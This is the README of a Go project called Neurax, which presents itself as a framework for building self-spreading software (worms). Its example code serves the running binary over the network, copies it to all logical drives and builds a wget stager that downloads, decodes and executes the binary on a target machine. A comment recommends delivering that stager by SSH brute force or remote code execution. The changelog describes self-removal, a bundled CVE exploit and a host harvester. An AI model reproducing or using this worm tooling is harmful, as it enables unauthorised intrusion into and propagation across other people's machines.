 <br></br>
<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>
<br></br>
<p align="center"> A framework that aids in creation of self-spreading software</p>

<br></br>

## Overview
With help of Neurax, Golang binaries can spread on LAN/WAN without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.


## Example code

```go
package main
import . "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  Nrx.Config.Port = 5555
  Nrx.Config.Stager = "wget"

  //Start a server that exposes the current binary in the background
  go NeuraxServer()
 
  //Copy current binary to all logical drives
  NeuraxDisks()

  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := NeuraxStager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```
<br></br>
## New in v. 2.X (separate sub-project)
- Refactor: abandoned framework-like approach in favour of a ready-to-use binary
- Generic wget stager for all UNIX targets
- Single config file to tweak worm's behaviour on the fly
- Automatic self-removal via `unlinkat(2)`
- Example LinuxKI CVE exploit to supplement network spreading capabilities 
- JSON config file is downloaded and evaluated 
- Minimalistic re-write of host harvester 
